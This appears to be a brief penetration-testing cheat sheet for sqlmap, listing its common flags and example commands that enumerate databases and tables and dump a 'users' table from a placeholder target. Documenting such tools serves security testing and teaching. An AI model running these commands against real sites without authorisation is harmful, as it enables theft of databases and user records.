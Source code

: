 === sqlmap
_SQL injection_

sqlmap automates SQL injection attacks.

==== Common Flags

[cols="1,3", options="header"]
|===
|Flag               |Description
|`-u http://target` |Location of vulnerability on the target
|`--dbs`            |Enumerate databases
|`-D db`            |Filter to only this database
|`--tables`         |Enumerate tables
|`-T table`         |Filter to only this table
|`--dump`           |Dump all tables from all databases filtered
|===

==== Common Usage

  sqlmap -u http://target/?id=1 --dbs

Get all databases.

  sqlmap -u http://target/?id=1 -D blog --tables

Get all tables in the blog database.

  sqlmap -u http://target/?id=1 -D blog -T users --dump

Get all rows in the user table in the blog database.

<<<
